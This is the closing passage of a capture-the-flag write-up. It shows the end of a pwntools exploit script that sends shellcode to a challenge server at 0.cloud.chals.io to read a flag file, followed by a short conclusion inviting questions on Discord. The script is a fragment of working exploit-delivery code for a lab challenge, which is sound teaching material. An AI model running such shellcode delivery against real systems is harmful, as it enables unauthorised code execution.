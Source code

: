 ```python
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Conclusion

We hope this explanation on how to solve the three challenges was helpful (and not too verbose!). If something is still obscure to you, you can ask a question on the discord server or comment below and we will try to answer in a timely manner.